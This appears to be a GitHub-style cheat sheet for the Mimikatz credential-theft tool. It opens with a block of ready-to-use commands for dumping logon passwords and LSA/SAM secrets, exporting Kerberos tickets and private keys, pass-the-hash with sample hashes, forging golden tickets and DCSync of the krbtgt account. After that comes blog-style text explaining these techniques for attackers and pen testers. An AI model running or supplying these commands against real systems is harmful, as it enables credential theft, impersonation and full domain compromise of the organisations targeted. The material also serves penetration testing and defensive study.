 
## Top Commands
```Terminal
#general
privilege::debug
log
log customlogfilename.log

#sekurlsa
sekurlsa::logonpasswords
sekurlsa::logonPasswords full
sekurlsa::tickets /export
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd

#kerberos
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi

#crypto
crypto::capi
crypto::cng
crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE
crypto::keys /export
crypto::keys /machine /export

#vault & lsadump
vault::cred
vault::list
token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert
lsadump::dcsync /user:domain\krbtgt /domain:lab.local

#pth
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a
sekurlsa::pth /user:Administrateur /domain:chocolate.local /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe

#ekeys
sekurlsa::ekeys

#dpapi
sekurlsa::dpapi

#minidump
sekurlsa::minidump lsass.dmp

#ptt
kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi

#golden/silver
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi

#tgt
kerberos::tgt

#purge
kerberos::purge
```




## What is Mimikatz?

[Mimikatz](https://github.com/gentilkiwi/mimikatz) is an open-source application that allows users to view and save authentication credentials such as [Kerberos tickets](https://www.varonis.com/blog/kerberos-authentication-explained/?hsLang=en). The toolset works with the current release of Windows and includes a collection of different network attacks to help assess vulnerabilities.

Attackers commonly use Mimikatz to steal credentials and escalate privileges because in most cases, endpoint protection software and antivirus systems will not detect or delete the attack. Conversely, [pen testers](https://www.varonis.com/blog/master-fileless-malware-penetration-testing/?hsLang=en) use Mimikatz to detect and exploit vulnerabilities in your networks so you can fix them.

## What can Mimikatz do?

![what-can-mimikatz-do-2x-png](https://info.varonis.com/hs-fs/hubfs/what-can-mimikatz-do-2x-png.png?width=1600&name=what-can-mimikatz-do-2x-png.png)

Mimikatz originally demonstrated how to exploit a single vulnerability in the Windows authentication system. Now it exposes several different kinds of vulnerabilities; Mimikatz can perform credential-gathering techniques such as:

-   **Pass-the-hash**: Windows used to [store password data in an NTLM hash](https://www.varonis.com/blog/windows-10-authentication-the-end-of-pass-the-hash/?hsLang=en). Attackers use Mimikatz to pass that exact hash string to the target computer to log in. Attackers don’t even need to crack the password — they just need to use the hash string as-is. It’s the equivalent of finding the master key to a building on the lobby floor. You need just that one key to get into all the doors.
-   **Pass-the-ticket**: Newer versions of Windows store password data in a construct called a ticket. Mimikatz provides functionality for a user to pass a Kerberos ticket to another computer and log in with that user’s ticket. It’s very similar to the pass-the-hash method.
-   **Overpass-the-hash (pass-the-key)**: Yet another flavor of the pass-the-hash, but this technique passes a unique key obtained from a domain controller to impersonate a user.
-   **Kerberoast golden tickets**: This is a pass-the-ticket attack, but it’s a specific ticket for a hidden account called KRBTGT, which is the account that encrypts all of the other tickets. A [golden ticket](https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/?hsLang=en) provides you with non-expiring domain admin credentials to any computer on the network.
-   **Kerberoast silver tickets**: Another pass-the-ticket, but a [silver ticket](https://www.varonis.com/blog/kerberos-attack-silver-ticket/?hsLang=en) takes advantage of a feature in Windows that makes it easy for you to use services on the network. Kerberos grants a user a ticket-granting server (TGS) ticket, and a user can use that ticket to authentic to service accounts on the network. Microsoft doesn’t always check a TGS after it’s issued, so it’s easy to slip past any safeguards.
-   **Pass-the-cache**: Finally an attack that doesn’t take advantage of Windows! A pass-the-cache attack is generally the same as a pass-the-ticket, but this one uses the saved and encrypted login data on a Mac/UNIX/Linux system.